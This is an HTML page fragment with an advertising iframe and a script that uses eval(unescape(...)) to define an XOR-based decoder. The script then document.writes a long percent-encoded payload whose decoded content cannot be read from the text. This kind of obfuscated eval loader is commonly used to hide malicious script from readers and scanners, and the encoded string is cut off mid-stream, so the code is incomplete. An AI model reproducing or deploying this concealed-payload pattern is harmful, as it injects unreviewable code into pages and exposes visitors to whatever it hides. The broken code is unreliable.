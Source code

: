 
<html>
<head>
</head>
<body>
<Center><iframe data-aa="1507938" src="//ad.a-ads.com/1507938?size=320x50" scrolling="no" style="width:320px; height:50px; border:0px; padding:0; overflow:hidden" allowtransparency="true"></iframe></center>
<br/><br/><script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%74%31%34%37%30%63%63%34%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%31%37%33%31%36%33%36%34%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%35%39%30%36%35%33%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%34%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%74%31%34%37%30%63%63%34%28%27') + '%43%22%4e%56%43%5f%55%51%40%24%6a%7d%72%73%45%17%0b%44%6b%70%74%79%24%76%60%71%68%46%20%6c%76%21%4a%14%07%11%08%45%6f%6a%62%6e%47%15%09%19%0b%49%70%6b%77%6c%27%6b%70%6c%6e%46%23%69%71%78%72%72%3d%30%34%7d%7e%7f%35%70%76%7a%72%71%69%7a%65%35%77%75%37%6d%6d%7f%64%67%75%77%31%6e%60%75%2e%20%71%61%75%48%2b%6b%62%70%71%2c%22%7d%79%73%61%44%22%6d%77%60%68%6a%34%7a%34%69%60%7b%77%22%33%44%14%0d%27%23%22%21%44%76%61%7d%6c%24%6a%7d%7b%77%36%6f%70%7d%6a%72%44%2f%47%75%77%7b%6a%75%7e%34%5c%7a%7c%6c%2f%24%61%76%71%7b%6e%74%7d%45%21%70%6c%75%78%35%69%7b%72%77%39%21%63%6b%6d%73%7e%69%7e%44%7a%7b%6d%37%39%22%45%19%0b%2d%24%22%21%43%72%6e%7e%60%20%6b%70%7d%7d%31%6f%70%7a%6e%7d%47%23%58%36%51%40%38%47%75%74%77%66%7f%6b%63%74%6e%2e%21%6e%73%74%7d%6a%71%7f%47%23%49%4e%49%6c%61%6b%6f%23%41%12%09%22%21%20%23%48%74%60%78%63%21%71%66%76%6f%44%22%7d%65%6c%72%74%75%73%7b%25%23%61%76%76%7f%61%77%71%41%20%7e%6e%6b%7f%6a%44%6c%6e%72%68%6e%69%37%7e%6e%6b%7f%6a%35%20%6a%7a%68%71%6d%63%75%32%74%60%63%75%6d%46%3d%37%3d%26%44%14%0d%12%09%17%0b%20%23%2c%21%49%78%6b%7d%73%6a%45%5e%76%77%75%5f%6c%7f%7a%6f%73%27%32%23%5e%56%57%55%5f%49%50%46%34%54%53%43%34%7e%68%7c%77%61%47%18%0e%17%0b%12%0d%23%22%21%20%47%2d%34%38%24%41%52%54%27%5f%63%6e%20%36%39%47%18%0e%22%21%27%27%47%76%68%76%68%2c%69%7f%69%6c%44%25%6f%7f%7e%71%73%39%3b%36%71%73%75%77%74%6f%7e%60%37%6f%6a%70%69%70%66%34%68%70%30%61%6f%7d%61%34%7f%7d%7f%69%63%74%30%74%7f%7b%75%6d%35%6f%72%7e%26%22%73%6a%73%46%20%72%7c%7a%78%6c%7e%6c%6f%6c%7b%25%23%7e%78%70%6e%49%23%71%69%7a%7d%30%64%70%71%23%20%34%4a%14%07%24%22%21%27%43%70%61%73%69%73%70%21%7e%76%61%44%25%6f%7f%7e%71%73%39%3b%36%71%73%75%77%74%6f%7e%60%37%6f%6a%70%69%70%66%34%68%70%30%61%6f%7d%61%34%7f%7d%7f%69%63%74%30%6d%72%7f%6c%72%7a%3a%74%64%72%34%6b%74%25%45%46%36%73%60%7e%68%7d%78%44%14%0d%43%77%6b%77%6b%23%64%73%60%6a%47%2e%6f%7b%7f%72%72%3a%34%3b%72%71%65%61%6a%77%66%7f%6a%37%62%74%7b%7d%7e%78%70%60%77%64%6f%74%37%63%74%79%36%63%73%74%7d%32%66%7c%6f%72%77%76%61%36%31%32%3d%37%37%30%60%71%72%37%6d%7b%77%71%31%63%7e%6a%74%74%77%6c%36%76%65%77%3b%67%71%72%28%27%71%6f%75%45%2c%7f%7d%74%70%6f%72%6f%6a%6e%7e%2e%37%45%19%0b%49%77%7e%78%73%6a%45%17%0b%37%29%70%69%60%24%61%76%71%7b%62%6b%77%6d%71%2c%74%70%77%7e%21%65%6a%23%72%76%73%6a%70%68%7a%72%6f%6d%27%75%6e%76%60%7c%6a%72%6c%37%2e%35%14%0d%31%60%7f%72%7c%74%79%34%7e%69%76%6c%64%7b%23%79%14%0a%23%2c%71%7a%77%6b%7d%6e%70%75%38%21%72%6e%78%60%71%6d%7c%6c%3c%12%09%22%21%7f%6a%60%7d%65%3e%33%31%37%2a%22%6b%74%70%74%7e%7d%6c%72%7e%3a%12%0d%86%17%0b%44%34%7f%7d%74%70%6f%47%12%0d%47%71%62%72%6a%7c%7d%4b%11%08%21%27%27%23%7c%60%72%23%65%6f%7f%65%77%6c%27%42%23%6d%6c%7c%5e%7e%75%53%65%70%72%2f%2e%58%20%68%6c%21%69%3a%18%0e%22%21%27%27%6d%7f%77%63%7f%65%76%7b%24%6d%6c%7b%5a%71%76%5f%61%71%7f%29%24%24%79%14%0d%27%23%22%21%20%23%2c%21%73%65%70%21%79%66%71%71%21%45%23%77%84%36%11%08%21%27%27%23%22%21%20%23%72%60%7f%24%72%60%75%7b%70%22%44%20%7c%65%77%61%73%7d%37%73%70%60%63%7d%69%74%7a%37%65%76%6f%6f%31%75%6e%72%75%61%60%61%29%3a%5f%45%2f%62%2c%2b%59%67%45%2d%69%2a%24%41%2a%5a%61%29%66%28%28%37%6c%65%35%2d%6a%7f%77%64%7b%6a%75%77%20%2b%79%35%2d%6f%6f%78%33%27%7d%63%75%7d%6e%25%21%76%11%08%21%27%27%23%22%21%20%23%2c%21%2d%24%7c%60%75%74%58%69%6c%79%66%2c%44%2d%7a%63%75%7a%6a%38%17%0b%20%23%2c%21%2d%24%22%21%82%2e%38%17%0b%20%23%2c%21%2d%24%22%21%75%6a%7f%7f%73%76%23%72%60%7f%77%39%14%0d%27%23%22%21%85%16%06%21%2d%24%22%7f%66%75%23%6e%21%45%23%60%76%6e%79%77%6c%71%7b%38%17%0b%44%34%7f%62%7f%6d%72%7d%41%0e%0a%17%0b%44%70%6f%73%64%74%7e%21%7b%7e%73%6f%44%22%7f%61%79%71%33%68%60%79%66%70%61%73%69%73%70%23%4b%11%08%08%0e%0e%6d%7f%77%63%7f%65%76%7b%24%71%6c%7b%4e%6d%70%60%75%6e%5f%76%70%76%61%6c%2f%2e%23%79%14%0a%0a%05%08%04%7a%63%73%27%7b%6b%6f%52%6d%77%61%62%71%24%47%21%6b%70%60%7f%74%6d%75%70%37%62%69%7e%4c%73%6a%76%6f%77%7c%41%75%48%61%2c%2d%75%70%64%62%7e%68%77%75%23%28%36%11%08%08%0e%0e%0a%7c%60%72%23%70%69%60%4d%6c%73%66%72%6e%22%44%20%6f%7b%62%70%71%6f%77%7b%31%6c%6f%7d%4d%77%61%74%60%72%7e%43%7e%4e%6f%2a%2e%75%7a%45%6f%7f%65%77%6c%28%2e%38%17%0b%09%0a%05%08%73%65%70%21%7b%6f%6e%5f%73%74%38%19%0b%04%0d%0b%08%12%0d%0a%0b%08%09%7f%64%6c%50%76%76%21%42%27%7f%6a%6c%53%6e%78%6c%6e%78%34%76%77%7b%6a%75%77%73%58%70%69%60%57%6f%75%6a%64%7f%34%72%6d%77%61%62%71%69%6e%48%71%6b%6e%7a%64%36%7d%6d%75%70%69%39%14%0d%0e%0a%0b%08%7c%6b%61%48%63%76%63%74%6a%31%70%70%62%20%46%2c%7d%65%69%5f%73%73%3c%16%08%08%09%0a%89%14%07%0d%0b%45%30%74%60%70%68%70%7f%4a%14%07%40%71%7d%7e%73%6e%44%69%72%78%6e%76%7f%68%6f%73%32%7b%74%72%3b%31%73%74%21%7e%73%76%68%6b%27%20%6c%6f%6e%6d%62%6f%36%68%6b%72%77%73%62%7b%3b%62%77%7b%62%66%3f%77%60%75%68%6a%74%34%62%74%70%7d%7a%71%38%30%39%77%7b%39%7e%69%6f%70%69%37%3d%32%2c%82%31%61%7e%77%35%6b%7b%7f%60%76%22%7a%7b%6a%7b%7e%34%7c%71%6d%77%7e%6a%75%73%72%3d%7e%72%71%6d%71%6f%60%7e%69%39%6f%70%71%7f%37%7e%6d%6a%63%69%71%3e%33%33%37%37%38%7d%68%6c%7f%64%3b%2d%36%3d%3c%77%7f%38%22%6f%77%75%70%34%7e%6d%78%6c%3d%27%32%3c%71%78%38%2c%6f%7a%72%7e%34%78%6a%6a%6d%69%7c%39%2c%3f%3d%34%39%21%64%70%77%75%73%3a%23%2f%6f%63%6a%39%21%64%7a%71%71%76%72%39%2c%71%7a%6d%74%7d%6a%75%38%22%74%61%71%63%68%7b%3e%22%30%3b%77%7b%39%21%68%6e%65%6e%65%78%38%21%3a%3a%73%7a%3a%20%7f%61%79%71%31%63%75%6e%68%75%38%21%63%6e%7a%7d%60%76%39%21%65%70%71%6e%6c%72%39%2c%77%7a%72%6f%3a%27%65%62%61%6a%6f%71%7b%7c%7b%68%37%72%6e%7d%6e%38%21%33%33%3c%2c%2d%35%32%31%2a%3c%23%60%76%72%6f%61%73%38%76%63%6d%6e%7a%70%38%21%3d%33%7c%79%36%24%77%76%7d%32%7f%70%60%76%70%65%7d%64%73%74%3b%27%66%77%76%21%36%3f%7f%21%60%65%71%6c%32%6e%75%37%76%7d%7f%37%21%38%73%37%7d%75%66%75%71%68%7c%6a%7b%77%37%24%63%75%73%27%35%3e%72%20%6e%6d%72%60%31%6b%77%32%70%7e%7e%3a%20%36%73%6c%6f%6f%6b%7d%32%7b%71%63%77%73%6a%70%68%7a%72%38%21%66%73%77%22%37%3c%70%2c%6c%6c%77%6f%34%6e%71%36%75%7c%7c%38%2c%7d%7f%65%74%72%6e%7b%6a%75%77%3a%23%6d%75%79%24%34%3d%74%27%6e%63%72%6d%36%65%77%38%73%7f%7d%3c%82%35%60%7d%76%36%64%76%73%69%70%3b%6f%70%7d%6f%73%20%78%2c%63%6c%67%69%6e%75%70%7e%74%6d%35%73%7b%72%64%78%6b%76%71%3d%23%33%31%30%2e%2c%31%36%24%77%76%7d%32%7f%70%60%76%70%65%7d%64%73%74%3b%27%66%77%76%21%36%3f%7f%21%60%65%71%6c%32%6e%75%37%76%7d%7f%37%21%38%73%37%7d%75%66%75%71%68%7c%6a%7b%77%37%24%63%75%73%27%35%3e%72%20%6e%6d%72%60%31%6b%77%32%70%7e%7e%3a%20%36%73%6c%6f%6f%6b%7d%32%7b%71%63%77%73%6a%70%68%7a%72%38%21%66%73%77%22%37%3c%70%2c%6c%6c%77%6f%34%6e%71%36%75%7c%7c%38%2c%7d%7f%65%74%72%6e%7b%6a%75%77%3a%23%6d%75%79%24%34%3d%74%27%6e%63%72%6d%36%65%77%38%73%7f%7d%3c%82%35%60%7d%76%36%64%76%73%69%70%3b%69%70%60%7f%72%20%78%2c%76%70%78%76%68%71%6a%39%22%77%77%75%61%3a%88%32%60%7d%71%32%6b%75%7f%6d%71%3a%62%7a%70%75%73%32%36%23%79%21%62%62%6f%6a%62%76%75%7c%71%6b%36%6b%74%61%6c%61%3b%2d%70%6b%77%6a%66%71%37%6e%72%62%60%68%60%72%7e%29%7b%70%23%70%68%6f%6b%70%35%2d%27%30%3c%66%66%6e%33%35%20%20%30%31%60%38%3b%3c%33%27%20%31%31%6c%6f%34%60%39%24%21%33%65%65%3d%3d%32%29%38%2c%63%7a%7c%37%72%6f%66%6f%75%7e%3a%23%3c%21%31%74%7a%21%36%3a%73%7a%21%30%23%7e%6e%6f%65%2a%3d%3e%33%23%33%38%3e%37%2c%30%34%34%36%21%37%31%3c%3f%28%3b%86%3a%63%71%72%37%69%70%79%6e%70%37%63%74%78%76%7f%31%30%21%7c%27%61%63%62%6b%6c%7e%76%70%72%6e%34%6e%72%62%6d%6c%3a%23%78%68%7b%69%63%73%32%68%71%63%6d%69%6e%7a%7d%25%78%75%21%75%6e%6c%6a%7d%34%23%2f%6f%30%67%6f%3f%35%33%23%21%6c%3c%30%32%31%3e%30%22%22%69%66%3c%33%38%39%37%2c%22%60%3c%3f%60%36%3e%2a%39%84%36%61%70%77%38%6c%75%7f%6a%75%35%61%76%74%74%7e%34%3e%24%79%21%65%66%60%69%6e%72%74%71%77%61%31%6b%74%66%68%6e%38%21%74%6a%7a%6c%6c%76%37%6e%75%66%6f%6b%6c%76%7f%24%7d%7a%24%70%68%68%6f%7f%36%21%23%3d%32%3e%60%69%63%35%27%24%3c%3c%3d%62%62%3e%35%2d%27%3c%43%3f%4b%4f%3c%35%20%20%34%4c%3e%3b%4e%3e%2e%3c%23%60%76%78%36%7f%69%6c%68%75%7e%3d%27%33%22%3d%70%7b%2c%30%30%74%7a%21%37%27%71%6d%63%61%2b%3d%30%33%30%22%3e%3e%33%23%33%3f%38%37%2c%31%3b%3b%3f%28%3c%82%35%60%7d%76%36%64%76%73%69%70%37%64%70%77%75%73%35%3f%2c%7a%2d%66%63%62%6c%68%71%75%7c%76%6f%39%68%78%65%6d%6c%3d%27%77%6b%77%6d%62%7e%34%62%76%63%6d%6e%6a%75%7e%29%7c%74%2c%73%64%6b%6a%7d%33%27%20%6c%62%3e%33%33%3f%39%24%21%6f%69%3e%62%3e%3d%34%23%2f%6c%63%3d%6e%3d%34%33%23%21%6c%3f%3e%31%30%33%2d%39%21%65%70%7b%37%72%68%62%60%76%72%3e%22%31%27%3b%73%7a%21%31%3e%7c%79%2d%34%22%73%68%65%62%2a%33%3d%31%38%21%3c%34%3e%35%27%36%32%32%35%20%33%3a%3e%30%2d%39%84%31%65%7f%74%34%68%74%72%6c%7f%32%61%76%73%70%71%37%3c%20%78%2c%63%6c%67%69%6e%75%70%7e%74%6d%35%6a%79%60%62%69%38%21%73%6e%75%6f%60%72%36%63%73%6c%68%6b%6c%71%7b%2b%7e%76%20%71%65%6e%65%78%36%21%24%37%61%63%32%3e%33%38%21%2e%37%61%63%66%3e%31%36%21%23%30%3c%6d%61%3c%63%35%27%24%31%60%63%3e%3c%3f%28%36%24%60%76%7f%32%70%6a%60%6c%74%73%3b%2d%34%22%3d%77%7f%23%33%3c%70%7b%2c%31%2d%76%6d%63%66%2f%31%31%35%20%32%32%39%39%24%33%31%3f%33%23%32%37%3f%3e%25%3a%88%32%60%7d%71%32%6b%75%7f%6d%71%3a%62%7a%70%75%73%32%39%23%79%21%62%62%6f%6a%62%76%75%7c%71%6b%36%6b%74%61%6c%61%3b%2d%70%6b%77%6a%66%71%37%6e%72%62%60%68%60%72%7e%29%7b%70%23%70%68%6f%6b%70%35%2d%27%32%31%3e%35%3f%3f%35%20%20%42%42%40%49%30%30%33%27%20%32%31%41%3b%4f%3c%39%24%21%4d%3e%4a%33%30%30%29%38%2c%63%7a%7c%37%72%6f%66%6f%75%7e%3a%23%3c%21%31%74%7a%21%36%3a%73%7a%21%30%23%7e%6e%6f%65%2a%39%34%33%23%33%3e%3e%37%2c%3c%32%30%22%31%31%38%3e%2b%3a%85%35%6e%7d%7b%31%6a%76%79%6a%71%34%62%77%77%7b%73%38%3b%22%7a%27%65%62%61%6a%6f%71%7b%7c%7b%68%37%68%72%66%6c%6f%3b%20%77%65%77%60%65%70%34%68%75%62%6e%68%6d%75%70%29%71%73%22%73%6e%68%6b%7e%35%20%20%32%33%30%37%6f%30%33%27%20%3a%3c%32%4f%35%30%39%24%21%40%34%46%32%4c%4f%34%23%2f%4f%3f%38%3c%3d%3a%2e%38%22%63%77%7b%39%72%65%65%6e%76%78%3d%23%32%21%3c%73%74%21%3c%39%72%79%27%37%23%70%6e%62%62%24%30%3f%3a%36%21%3a%35%37%22%30%3e%32%38%21%3d%32%3d%3c%2e%3c%86%34%63%7c%75%39%69%7a%7a%6f%73%31%64%74%76%76%72%36%34%21%76%24%60%60%64%6c%6c%70%76%7d%75%60%34%64%71%63%6e%6a%3d%23%76%68%76%6e%6d%73%38%6b%70%60%6b%6e%6e%74%7d%28%7f%7b%21%7f%6d%6d%69%7b%33%23%21%33%39%30%3e%32%6e%30%22%22%3b%3f%3e%3f%3f%33%37%2c%22%3f%66%3f%39%38%39%37%22%22%3c%6e%30%32%32%3a%2b%3a%27%65%74%7a%34%73%6b%6d%6d%7a%7b%38%21%37%27%3f%72%79%20%32%31%71%75%24%32%21%75%68%61%63%29%3c%3e%38%21%30%38%36%21%39%3a%37%22%31%36%3c%31%28%36%81%34%63%7b%71%36%6a%76%7e%6e%7e%37%6e%73%76%76%75%32%3a%22%7a%20%61%6d%62%66%6b%70%76%7a%71%6f%37%68%75%62%63%6c%37%24%76%68%71%6a%62%70%34%6f%71%6d%6d%64%69%74%7d%2f%7b%74%22%73%69%6c%64%7d%39%24%21%33%3a%66%62%6f%30%34%23%2f%3d%31%3c%33%6c%65%33%23%21%31%3c%61%61%6f%60%30%22%22%34%69%3b%3c%6c%6c%2a%37%21%6f%73%7a%34%74%6f%62%6e%76%7f%39%2c%31%2d%37%72%79%27%36%31%72%79%20%33%2c%73%62%66%63%29%3b%3e%37%22%30%39%3d%38%21%3c%3d%32%35%27%37%35%3d%3c%29%38%89%37%6f%78%74%34%6f%70%7d%6f%73%36%60%7b%75%7a%76%37%30%37%27%78%22%63%61%60%67%6e%7f%73%7f%77%6b%32%6a%77%60%6f%6e%36%21%79%6d%74%6c%66%75%36%6d%73%61%6f%65%6c%7b%78%2a%7d%70%27%71%6b%6e%68%7f%38%21%2e%69%6e%3f%6a%66%33%36%21%23%6e%6f%39%6e%3a%3b%35%27%24%6d%3d%30%38%3d%6d%21%39%24%21%4f%45%45%33%31%43%29%38%2c%63%7a%7c%37%72%6f%66%6f%75%7e%3a%23%3c%21%31%74%7a%21%36%3a%73%7a%21%30%23%7e%6e%6f%65%2a%33%34%39%37%22%30%31%3d%38%21%3c%38%3b%35%27%37%35%3d%3c%29%38%89%37%6f%78%74%34%6f%70%7d%6f%73%36%60%7b%75%7a%76%37%30%36%27%78%22%63%61%60%67%6e%7f%73%7f%77%6b%32%6a%77%60%6f%6e%36%21%79%6d%74%6c%66%75%36%6d%73%61%6f%65%6c%7b%78%2a%7d%70%27%71%6b%6e%68%7f%38%21%2e%69%60%32%3e%3b%32%36%21%23%6d%3d%3c%60%3a%3e%35%27%24%6e%33%3d%6d%3e%3f%35%2d%27%6f%33%34%38%30%6c%28%3b%23%6e%76%75%31%71%69%66%6b%74%7d%3b%20%33%2c%3c%7d%7c%22%30%3a%77%7b%22%73%6f%61%6d%29%3f%38%30%35%27%3e%3c%36%21%31%33%3f%35%2d%32%3e%28%3c%82%47%35%72%7c%7a%78%6c%4b%11%08%45%74%7b%7a%76%6c%46%6a%79%6e%76%71%63%79%32%78%6a%6e%7d%68%39%32%31%3d%74%7a%84%12%0d%6b%70%7a%63%74%78%76%7f%3e%21%60%66%66%62%63%60%85%16%06%36%27%24%51%7d%7e%73%6e%22%63%7d%7f%70%76%7b%77%22%2b%30%12%09%34%63%7c%75%2c%7a%18%0e%22%21%65%66%60%69%6e%72%74%71%77%61%31%61%76%73%70%71%38%21%4c%74%60%6e%60%76%40%75%7a%6a%38%17%0b%20%23%6e%76%7f%68%6f%73%3d%27%75%75%77%6d%38%19%0b%2d%24%61%76%73%70%71%38%21%7f%6b%65%7d%60%3f%17%0b%27%27%73%63%6d%6c%6a%7a%6e%37%24%33%33%77%7f%23%31%31%70%7b%37%14%07%24%22%62%7a%75%70%75%73%3a%23%7c%76%64%72%7e%6c%75%3c%16%08%21%20%6d%7b%77%71%31%71%68%7d%6a%39%22%30%38%73%74%3a%18%0e%87%14%0d%12%09%35%2b%20%4f%6d%73%66%69%70%21%65%66%60%69%6e%72%74%71%77%61%24%75%77%27%72%74%7f%72%6d%36%7b%7f%60%76%22%2b%30%12%09%34%63%7c%75%36%69%7a%7a%6f%73%27%7c%16%08%21%20%61%6d%62%66%6b%70%76%7a%71%6f%37%62%77%77%7b%73%37%24%50%76%7e%66%77%40%75%7d%6e%37%14%07%81%17%0b%31%75%6e%71%71%35%60%7b%77%71%65%6b%77%6a%75%23%79%14%0a%23%2c%21%2d%74%75%72%6e%7b%6a%75%77%3a%23%7e%6c%79%65%7e%68%79%6a%38%17%0b%20%23%2c%21%7a%7a%6f%73%69%73%74%7d%3b%20%6b%65%6d%61%69%74%3a%12%0d%23%22%21%20%73%6d%6d%61%6d%74%6e%32%7b%74%72%3b%20%3e%32%37%3f%39%2f%3a%12%0d%86%17%0b%15%09%3a%73%60%77%72%34%6e%69%71%63%74%6d%23%77%14%07%24%22%21%27%77%74%71%68%7c%6a%7b%77%37%24%63%63%74%70%77%7f%7d%6d%38%19%0b%2d%24%22%21%7b%70%73%38%21%30%38%19%0b%2d%24%22%21%73%6a%6d%7e%3b%20%33%37%14%07%24%22%21%27%78%6a%6e%7d%68%39%2c%30%3d%34%2f%3a%12%0d%23%22%21%20%6b%61%68%62%6c%7e%3b%27%36%33%32%2c%3b%16%06%21%2d%24%22%63%70%75%6f%6f%73%3a%23%3c%3a%18%0e%87%14%0d%12%09%46%36%73%7f%75%75%60%42%17%0b%43%30%6b%6f%60%6c%45%19%0b%18%0e%46%63%70%6b%7a%22%62%74%62%7f%72%48%26%77%68%71%32%7d%6a%34%31%33%3c%21%61%31%6c%75%6a%7f%23%6c%75%6d%7b%39%62%7a%70%7f%74%71%25%45%17%0b%20%23%2c%21%49%72%63%7f%27%64%77%63%72%73%46%2e%77%6c%7a%60%60%75%27%75%63%7f%62%62%7e%34%60%7c%72%60%71%6b%36%76%6e%20%75%6d%7f%6f%65%70%34%73%6e%6c%6a%7d%20%61%63%34%72%6c%6b%7d%6a%27%61%75%73%6c%6e%7e%34%6f%73%7e%7d%70%72%23%60%76%72%6f%61%73%38%70%6b%6e%6f%7b%23%6c%68%78%6e%60%34%71%73%72%23%41%12%09%22%21%20%23%2c%21%2d%24%46%6d%6e%79%23%61%75%61%70%7f%44%2f%67%75%77%7b%66%6a%74%6c%72%36%62%75%70%6d%6e%23%41%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%47%63%21%63%77%6d%72%7e%41%20%77%66%79%61%63%73%35%61%7e%60%7b%68%20%21%6f%75%6e%6c%44%22%34%3b%23%2d%78%6b%7d%73%6a%46%20%5d%77%74%7a%72%45%79%60%23%41%12%09%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%47%65%74%62%24%71%73%64%42%21%6a%7d%7c%73%7f%3b%3a%33%70%60%78%31%6c%6b%7d%68%7e%6e%7c%7e%69%70%62%70%71%7f%6f%77%7c%35%6f%76%78%33%5e%76%70%71%70%4a%7c%62%34%50%76%7a%72%71%49%7a%65%35%6d%68%7c%6b%71%63%3b%6d%75%36%72%66%70%7e%6c%72%34%6e%6c%71%65%35%75%70%68%74%34%71%76%6c%2e%21%65%69%6b%6e%6f%7b%46%20%32%30%21%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%61%75%61%70%7f%44%2f%70%63%7b%7e%73%74%63%6d%20%6f%39%68%7b%70%6b%77%6a%32%61%76%76%63%68%2c%60%79%6d%6d%77%32%7b%74%72%23%20%62%78%7d%48%26%5e%76%70%71%70%4a%7c%62%21%4a%14%07%24%22%21%27%27%23%22%21%20%23%2c%21%49%33%63%47%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%43%61%7f%7d%7c%74%7a%21%6e%70%63%72%74%42%21%74%60%7e%61%6d%73%38%78%75%6e%68%73%6e%70%23%20%7f%75%71%60%41%20%63%7a%7b%7f%75%77%22%23%60%60%71%65%37%7d%70%68%6c%76%6c%45%21%6f%76%79%70%63%71%74%6a%21%22%6d%61%7f%6d%34%71%65%70%6e%6a%7b%46%20%22%76%62%72%63%6c%76%50%6c%74%77%74%74%72%69%7d%61%23%18%0e%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%66%71%6b%60%35%60%7b%77%71%76%75%75%74%42%21%74%60%7e%61%6d%73%5f%69%71%71%70%71%70%6b%7f%6d%21%2c%60%7f%6d%63%34%73%66%61%6f%75%45%21%50%76%62%6b%76%6c%27%71%62%7c%68%6f%62%70%68%7a%72%20%47%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%44%70%7c%60%7b%24%61%75%66%74%70%47%23%76%62%72%63%6c%76%37%7d%70%68%6c%76%6c%72%36%65%62%7a%72%20%47%43%30%70%72%60%76%45%19%0b%2d%24%22%21%27%27%23%22%21%20%23%2c%45%3a%66%7f%7d%7b%70%75%44%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%44%6f%65%7f%2d%67%76%60%74%74%46%20%62%77%77%78%60%7d%77%6f%21%71%66%7d%60%60%72%36%6f%76%79%70%63%71%74%6a%21%22%68%6c%46%2e%77%6c%7a%60%60%75%55%6e%71%71%77%75%7f%68%73%69%20%47%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%44%6f%65%7f%2d%67%76%60%74%74%46%20%77%61%7d%6e%60%7f%31%74%60%79%27%76%7b%34%33%23%79%78%38%70%6d%34%37%27%74%70%6d%6d%71%39%33%2f%42%17%0b%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%48%6f%7a%76%77%21%6e%6b%46%20%70%7d%6a%6f%6a%6a%77%6f%60%75%64%6b%65%6f%77%71%79%23%2d%67%76%60%74%74%46%20%77%61%7d%6e%60%7f%31%6c%76%75%72%23%6b%77%70%7e%70%34%62%76%75%7c%77%27%6a%74%71%7d%7f%39%6e%7f%73%7f%71%32%74%76%20%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%60%63%7f%65%76%7b%41%20%36%25%27%76%6f%7d%68%74%60%44%2f%6b%6f%7d%25%41%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%47%6b%77%70%7e%70%21%71%7d%72%6c%42%25%7f%6f%79%7c%21%2c%7f%6c%70%7f%6c%42%25%21%22%77%61%76%61%44%2f%77%20%21%6e%6b%46%20%72%6d%62%7e%62%65%26%22%62%73%66%70%71%44%22%6d%7b%73%78%31%61%76%71%7b%71%75%75%22%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%74%76%60%64%6a%6b%75%75%6c%6e%7e%44%2f%5f%5e%76%70%71%70%4a%7c%62%66%2c%52%60%65%70%62%6f%31%35%34%23%20%62%71%7d%7a%67%75%74%77%73%6e%7e%6c%45%21%7b%6f%63%26%44%14%0d%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%45%3a%6a%75%73%72%41%16%08%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%48%36%61%6d%7c%47%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%44%7e%78%21%6e%70%63%72%74%42%21%74%60%7e%23%7a%60%73%66%63%73%32%71%62%7c%21%75%71%39%60%70%78%75%21%70%75%6f%6f%73%35%32%2e%47%18%0e%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%44%77%65%21%6e%70%63%72%74%42%21%74%60%7e%36%65%7d%60%71%20%47%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%43%66%23%61%75%61%70%7f%44%2f%72%63%7f%32%73%6a%74%6a%22%23%64%73%60%6a%47%23%30%25%45%46%68%20%60%78%60%7e%77%47%23%69%66%70%22%6f%61%36%64%76%78%69%22%6f%66%32%6d%7d%23%46%47%3b%68%4b%24%4a%76%72%6a%47%35%60%46%16%06%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%47%35%75%69%45%19%0b%18%0e%17%0b%12%0d%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%44%34%71%75%4b%11%08%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%47%7f%75%20%60%78%60%7e%77%47%23%71%66%7d%60%60%72%36%7a%60%73%24%77%78%32%35%23%77%78%35%77%63%34%3d%24%77%79%32%73%6c%37%33%20%74%7e%6d%60%76%37%32%25%41%16%08%14%0a%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%43%73%6a%22%62%74%62%7f%72%48%26%74%60%79%32%6a%7e%6c%75%21%4a%14%07%24%22%21%27%27%23%22%21%20%23%2c%21%2d%24%22%21%27%27%23%22%21%20%23%2c%45%6c%24%61%75%66%74%70%47%23%76%62%72%34%79%6d%74%6a%25%27%6b%70%6c%6e%46%2e%22%2f%24%6e%60%7b%66%36%7e%76%6f%6c%78%6c%48%26%77%76%6b%66%77%20%21%6c%62%70%60%38%78%63%73%68%6a%7f%47%23%